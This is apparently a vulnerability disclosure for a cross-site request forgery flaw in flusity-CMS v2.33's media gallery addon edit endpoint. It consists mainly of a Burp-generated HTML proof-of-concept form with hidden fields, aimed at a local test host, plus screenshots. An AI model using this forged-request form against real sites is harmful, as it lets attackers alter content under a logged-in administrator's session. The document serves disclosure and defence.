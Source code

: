 target:https://github.com/flusity/flusity-CMS
version: v2.33

flusity-CMS v2.33 was discovered to contain a Cross-Site Request Forgery (CSRF) via the component /cover/addons/info_media_gallery/action/edit_addon_post.php

![1](https://github.com/TinkAnet/cve/assets/118334129/c758fea1-c3a3-4a97-88f0-435b822d341f)


Poc:

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/cover/addons/info_media_gallery/action/edit_addon_post.php" method="POST" enctype="multipart/form-data">
      <input type="hidden" name="mode" value="edit" />
      <input type="hidden" name="addon&#95;post&#95;edit&#95;id" value="4" />
      <input type="hidden" name="id" value="19" />
      <input type="hidden" name="addon&#95;place&#95;id" value="8" />
      <input type="hidden" name="addon&#95;menu&#95;id" value="0" />
      <input type="hidden" name="gallery&#95;name" value="12345" />
      <input type="hidden" name="gallery&#95;css&#95;style&#95;settings" value="dark" />
      <input type="hidden" name="img&#95;w" value="0" />
      <input type="hidden" name="submit" value="" />
      <input type="submit" value="Submit request" />
    </form>
  </body>
</html>


```

![1](https://github.com/TinkAnet/cve/assets/118334129/3bd3384f-124a-4e23-8300-8e27b14900eb)


Successed

![3](https://github.com/TinkAnet/cve/assets/118334129/dbaebdd3-9829-4333-8d26-682028e83dd5)
